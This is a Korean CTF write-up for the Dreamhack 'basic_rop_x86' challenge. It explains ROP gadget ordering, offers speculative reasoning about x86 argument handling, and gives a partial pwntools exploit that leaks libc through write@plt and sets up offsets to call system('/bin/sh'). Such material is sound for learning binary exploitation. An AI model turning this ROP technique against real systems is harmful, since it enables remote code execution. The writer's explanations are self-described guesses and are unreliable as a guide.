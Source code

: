 #### x86 참고 1.

위의 예시처럼 `ret;` 리턴 가젯은 **호출할 함수나 instruction주소 또는 가젯** 앞에만 위치해야하고, `pop` 가젯 바로 뒤에서 `pop` 가젯이 저장할 값 앞에 위치하면 안된다. 

Ex)   

`p64(pop) + p64(ret) + p64(0x1)` -> 불가능

`p64(ret) + p64(pop) + p64(0x1)` -> 가능

<br>

#### x86 참고 2.

**근데, `pop; pop; pop; ret;` 가젯 대신 `pop; ret; + 인자값`을 연속 3번 쓰면 실행을 할 수 없는 이유가 무엇일까 ?**

**그리고 x64와 달리 x86은 3개의 인자 중 2개의 인자만 설정하면 안되는 이유가 무엇일까 ?**

일단 내가 추측한 이유로는 `x64`는 함수 호출 이전에 레지스터에 있는 값을 저장하여 인자로 사용하기 때문에 함수를 호출 했을 때, 

레지스터 값을 설정하지 않아도 레지스터에 저장된 그 상태를 인자로 생각하면 되니까 `pop; ret;`을 연속으로 사용해도 되고,

일단 더 중요한게 **함수 안이 아니므로** `ret`이 나와도 함수가 끝나지 않아서 그런 것이라고 생각한다.

대신 `x86`은 함수 호출 후 스택에 있는 값을 레지스터에 저장하여 인자로 사용하기 때문에, 

`write`를 기준으로 3개의 인자를 함수 호출 후 `pop` 해서 쓰므로 이전에 레지스터에 저장되어 있던 값은 무시하고 3개의 값을 무조건 stack에서 꺼내와야 하므로 2개만 설정하면 안되고, 

중간에 `ret`을 만나면 함수를 종료했다고 생각하기 때문에 `pop; pop; pop; ret;`으로 인자를 3개 먼저 받고 다 받으면 `write` 콜이 실행되고 이후 `ret`으로 함수를 종료해야되는게 아닐까라는 생각이 든다.

<br>

## Exploit

```py
from pwn import *

# ret2main

context.arch = "i386"
p = remote('host3.dreamhack.games', 14372)

e = ELF('./basic_rop_x86')
libc = ELF('./libc.so.6')
r = ROP(e)

read_got = e.got['read']
write_plt = e.plt['write']
main = e.symbols['main']

binsh = list(libc.search(b'/bin/sh'))[0]
read_system_offset = libc.symbols['read'] - libc.symbols['system']
read_binsh_offset = libc.symbols['read'] - binsh

pop = r.find_gadget(['pop ebp', 'ret'])[0]
pop3 = r.find_gadget(['pop esi', 'pop edi', 'pop ebp', 'ret'])[0]
ret = r.find_gadget(['ret'])[0]
# pop = 0x0804868b
# pop3 = 0x08048689
# ret = 0x080483c2

payload = b'a'*0x40 + b'a'*0x8
payload += p32(ret)
payload += p32(write_plt) + p32(pop3) + p32(1) + p32(read_got) + p32(0x4) + p32(main)
# payload += p32(write_plt) + p32(pop) + p32(1) + p32(pop) + p32(read_got) + p32(pop) + p32(0x4) + p32(main)
```